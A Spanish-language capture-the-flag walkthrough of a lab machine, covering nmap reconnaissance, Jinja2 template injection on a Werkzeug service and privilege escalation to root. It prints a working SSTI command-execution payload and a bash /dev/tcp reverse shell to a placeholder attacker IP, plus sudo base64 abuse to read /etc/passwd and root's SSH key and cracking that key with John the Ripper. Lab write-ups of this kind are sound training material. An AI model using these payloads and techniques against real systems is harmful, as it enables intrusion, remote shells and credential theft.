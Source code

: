 ## 1. Reconocimiento Inicial con Nmap

Realizamos un escaneo exhaustivo con `nmap` para detectar puertos abiertos, sus versiones y el sistema operativo. Esto nos proporciona una visión general de los servicios expuestos y posibles vulnerabilidades asociadas a sus versiones.

```bash
nmap -O -sC -sV <IP_DEL_OBJETIVO>
```

**Resultados Clave:**

*   `22/tcp open ssh OpenSSH 9.2p1 Debian`: El puerto 22 (estándar para SSH) está abierto, lo que indica que podemos intentar acceder al sistema por esta vía si encontramos credenciales.
*   `80/tcp open http Apache httpd 2.4.59`: El puerto 80 está abierto y ejecuta un servidor web Apache. **La página por defecto de Apache no revela información útil inicialmente.**
*   `8089/tcp open http Werkzeug httpd 2.2.2 (Python 3.11.2)`: El puerto 8089 está abierto y ejecuta un servidor web `Werkzeug` con Python. Este es un punto de interés, ya que las aplicaciones web personalizadas a menudo contienen vulnerabilidades.

## 2. Enumeración Web y Descubrimiento de SSTI

Nos centramos en el puerto 8089, ya que es el servicio más prometedor para encontrar una vulnerabilidad.

### 2.1. Exploración del Puerto 8089

Al acceder a `http://<IP_DEL_OBJETIVO>:8089/`, encontramos una página web simple con un campo de entrada. Al introducir texto como "Hola", la página responde con "Hola Hola". Este comportamiento, donde la entrada del usuario se repite directamente en la salida, es un fuerte indicador de una posible vulnerabilidad de Server-Side Template Injection (SSTI).
![[Verdejo_P_8089.png]]
### 2.2. Confirmación de SSTI con Jinja2

Para confirmar la vulnerabilidad SSTI y determinar el motor de plantillas, probamos una expresión matemática simple dentro de la sintaxis de plantillas de Jinja2, que es común en aplicaciones Python como las que usan Werkzeug.

Introducimos `{{7*7}}` en el campo de entrada. Si la página devuelve `49`, esto confirma la vulnerabilidad SSTI y que el motor de plantillas es Jinja2. Esto significa que la aplicación web procesa la entrada del usuario a través de un motor de plantillas en el servidor sin una validación adecuada, permitiendo la inyección de código de plantilla malicioso.
![[Verdejo_49.png]]
## 3. Obtención de Reverse Shell (RCE)

Una vez confirmada la SSTI, podemos explotarla para ejecutar comandos en el sistema y obtener una shell inversa.

### 3.1. Ejecución de Comandos Arbitrarios

Utilizamos una carga útil (payload) de Jinja2 que nos permite ejecutar comandos del sistema operativo. Este payload utiliza la capacidad de Jinja2 para acceder a objetos globales de Python y ejecutar funciones del módulo `os`.

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__(\'os\').popen(\'id\').read() }}
```

Al introducir este payload en el campo de entrada, la página debería devolver la salida del comando `id`, confirmando la ejecución de comandos.

### 3.2. Ejecución de Reverse Shell

Ahora que podemos ejecutar comandos, inyectamos un payload de reverse shell para obtener una conexión interactiva a nuestra máquina atacante.

**Payload de Reverse Shell (Jinja2):**

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__(\'os\').popen(\'bash -c \\\'bash -i >& /dev/tcp/<IP_DE_TU_KALI>/443 0>&1\\\'\').read() }}
```

*   `os.popen()`: Ejecuta un comando en una subshell.
*   `bash -c '...'`: Ejecuta un comando bash.
*   `bash -i`: Inicia una shell interactiva.
*   `>& /dev/tcp/<IP_DE_TU_KALI>/443 0>&1`: Redirige la entrada y salida estándar a una conexión TCP a la IP de nuestra máquina atacante en el puerto 443.

**En la Máquina Atacante:**

Antes de introducir el payload, configuramos un `netcat` listener en nuestra máquina atacante para recibir la conexión entrante en el puerto 443.

```bash
nc -lvnp 443
```

Después de configurar el listener, introducimos el payload en el campo de entrada de la página web. Esto ejecutará el código y nos dará una shell inversa en nuestra máquina atacante. Confirmamos que estamos como el usuario `www-data`.

## 4. Escalada de Privilegios

Una vez que tenemos una shell como `www-data`, el objetivo es escalar privilegios a `root`.

### 4.1. Verificación de Permisos Sudo

Verificamos qué comandos puede ejecutar el usuario actual con `sudo` sin necesidad de contraseña. Esto se hace con el comando `sudo -l`.

```bash
sudo -l
```

**Resultados Clave:**

*   `(root) NOPASSWD: /usr/bin/base64`

Esto significa que el usuario actual puede ejecutar el binario `/usr/bin/base64` como `root` sin necesidad de introducir su contraseña. El comando `base64` se utiliza para codificar y decodificar datos, y puede ser abusado para leer o escribir archivos con privilegios elevados.

### 4.2. Abuso de `base64` para Modificar `/etc/passwd`

La técnica para escalar privilegios con `base64` cuando tiene permisos `NOPASSWD` en `sudo` implica modificar el archivo `/etc/passwd` para eliminar la contraseña del usuario `root`. Esto nos permitirá iniciar sesión como `root` sin contraseña.

1.  **Leer `/etc/passwd`:** Primero, leemos el contenido de `/etc/passwd` utilizando `base64` con `sudo` y lo decodificamos.

    ```bash
    LFILE=/etc/passwd
    sudo base64 "$LFILE" | base64 --decode
    ```

    Esto nos mostrará el contenido del archivo, incluyendo la línea de `root`:
    `root:x:0:0:root:/root:/bin/bash`

2.  **Modificar el contenido:** Copiamos el contenido de `/etc/passwd` a un archivo temporal en nuestra máquina atacante (o en el sistema comprometido si tenemos permisos de escritura en algún directorio). Luego, eliminamos la `x` de la entrada de `root`. La línea debe cambiar a `root::0:0:root:/root:/bin/bash`.

3.  **Codificar el contenido modificado:** Codificamos el archivo modificado de nuevo a Base64 y lo guardamos en un archivo.

4.  **Sobrescribir `/etc/passwd` con `base64`:** Utilizamos `base64` con `sudo` para decodificar el contenido modificado y redirigir la salida al archivo `/etc/passwd`.
```bash
sudo -u root /usr/bin/base64 --decode passwd.txt > /etc/passwd
```

Como no podemos modificar este archivo vamos a buscar la clave de ssh

### 4.3. Escalada de Privilegios Alternativa (Clave SSH)

Si la modificación de `/etc/passwd` no es posible o preferible, otra vía para escalar privilegios es buscar claves SSH privadas del usuario `root`.

1.  **Leer la clave SSH privada de `root`:** Utilizamos `base64` con `sudo` para leer el archivo `id_rsa` de `root` y lo decodificamos.

    ```bash
    sudo -u root base64 /root/.ssh/id_rsa | base64 --decode
    ```

    Esto nos devolverá el contenido de la clave SSH privada de `root`.

2.  **Guardar la clave:** Copiamos el contenido de la clave SSH a un archivo local en nuestra máquina atacante (por ejemplo, `id_rsa_root`).

3.  **Establecer permisos:** Las claves SSH privadas requieren permisos estrictos para ser utilizadas.

    ```bash
    chmod 600 id_rsa_root
    ```

4.  **Intentar conexión SSH como `root`:** Intentamos conectarnos vía SSH como `root` utilizando la clave privada.

    ```bash
    ssh -i id_rsa_root root@<IP_DEL_OBJETIVO>
    ```

    La clave está protegida con una frase de contraseña.

### 4.4. Cracking de la Frase de Contraseña

Si la clave SSH está protegida con una frase de contraseña, podemos intentar crackearla utilizando `ssh2john` y `john` (John the Ripper).

1.  **Convertir la clave a formato John:**

    ```bash
    ssh2john id_rsa_root > key.hash
    ```

2.  **Crackear la frase de contraseña:**

    ```bash
    john key.hash --wordlist=/path/to/wordlist/rockyou.txt
    ```

    Una vez crackeada, `john --show key.hash` nos mostrará la frase de contraseña (por ejemplo, `honda1`).

3.  **Conexión SSH con la frase de contraseña:** Volvemos a intentar la conexión SSH con la clave y la frase de contraseña obtenida.

    ```bash
    ssh -i id_rsa_root root@<IP_DEL_OBJETIVO>
    ```

    Una vez dentro, `whoami` confirmará el acceso como `root`.
